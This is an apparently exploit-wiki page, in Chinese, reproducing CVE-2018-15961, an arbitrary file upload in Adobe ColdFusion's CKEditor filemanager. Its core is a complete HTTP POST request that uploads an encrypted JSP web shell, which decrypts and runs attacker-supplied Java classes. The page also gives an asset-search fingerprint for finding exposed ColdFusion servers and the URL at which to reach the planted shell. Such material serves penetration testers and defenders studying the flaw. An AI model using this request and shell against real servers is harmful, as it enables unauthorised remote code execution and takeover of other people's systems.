



# Adobe ColdFusion upload.cfm 任意文件上传漏洞 CVE-2018-15961

## 漏洞描述

Adobe ColdFusion存在任意文件上传漏洞，通过漏洞攻击者可上传任意文件控制服务器

## 漏洞影响

<a-checkbox checked>Adobe ColdFusion </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Adobe-ColdFusion" </a-checkbox></br>

## 漏洞复现

产品官网



发送数据包上传任意文件

```php
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/upload.cfm HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 918
Content-Type: multipart/form-data; boundary=e9fb732e96144291860c4d742145cdabf98a4ec5cbe2a91aec6dc17461a0
Accept-Encoding: gzip

--e9fb732e96144291860c4d742145cdabf98a4ec5cbe2a91aec6dc17461a0
Content-Disposition: form-data; name="file"; filename="b79f4282c451e975c357d9616acea7ba.jsp"
Content-Type: application/octet-stream

<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
--e9fb732e96144291860c4d742145cdabf98a4ec5cbe2a91aec6dc17461a0
Content-Disposition: form-data; name="path"

path
--e9fb732e96144291860c4d742145cdabf98a4ec5cbe2a91aec6dc17461a0--
```



再访问路径 `/cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/uploadedFiles/shell.jsp`

